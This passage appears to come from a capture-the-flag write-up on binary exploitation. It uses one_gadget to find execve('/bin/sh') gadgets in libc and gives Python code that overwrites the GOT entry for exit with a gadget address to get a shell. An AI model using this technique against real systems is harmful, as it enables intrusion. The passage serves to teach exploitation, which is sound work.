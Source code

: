 ```
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Your offsets and constraints are likely to be different (unless you just happen to be using the same version of libc as I am).

The key to using one_gadget, is finding a gadget that we meet the constraints for.  We could use a debugger to determine which constraints will be met, but since there's only a few, let's just try each of them until they work.

I'll also run one_gadget on the provided binary, if there are any overlapping constraints, that would be ideal.

```
$ one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Oh how lucky, we have the same constraint: `[rsp+0x70] == NULL` in both versions of libc (again, you actually may not get this lucky depending on your version of libc).

Let's go ahead and try that gadget though, if the constraints are met locally, they will also be met remotely.

```python
# Offset of one_gadget for my local version of libc
# You will need to change this to match your version of libc!!!
one_gadget_offset = 0x106ef8
# calculate from libc base address to get runtime address
one_gadget_addr = libc.address + one_gadget_offset
# write the one_gadget address to GOT entry for 'exit'
for i in range(8):
    b = (one_gadget_addr >> (8*i)) & 0xff
    perf_write(p, GOT_PLT_EXIT+i, b)
# invoke exit (which now points to our one_gadget address)
perf_exit(p)
```
